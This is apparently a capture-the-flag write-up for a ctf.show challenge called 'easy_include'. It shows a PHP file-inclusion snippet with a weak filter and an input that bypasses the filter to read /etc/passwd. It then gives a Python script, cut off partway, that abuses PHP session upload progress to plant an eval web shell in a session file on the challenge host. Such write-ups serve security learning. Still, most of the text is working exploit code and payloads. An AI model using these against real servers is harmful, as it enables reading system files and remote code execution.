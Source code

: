 ## easy_include
#文件包含 
```php
<?php  
  
function waf($path){    $path = str_replace(".","",$path);  
    return preg_match("/^[a-z]+/",$path);  
}  
  
if(waf($_POST[1])){  
    include "file://".$_POST[1];  
}
```

bypass
`1=localhost/etc/passwd`

![](attachments/Pasted%20image%2020240216140716.png)

session文件包含
```python
import requests
import io
import threading
 
 
url = "http://4c043e9c-de20-4f93-be21-45f5885768ce.challenge.ctf.show/"
session_id = "wumonster"
 
 
def write(session):
   filebytes = io.BytesIO(b'a' * 1024 * 50)
   while True:
       res = session.post(url,
           data={
               'PHP_SESSION_UPLOAD_PROGRESS': "<?php eval($_POST[2]);?>"
              },
           cookies={
               'PHPSESSID': session_id
              },
           files={
               'file': ('hhh.jpg', filebytes)
              }
          )
 
```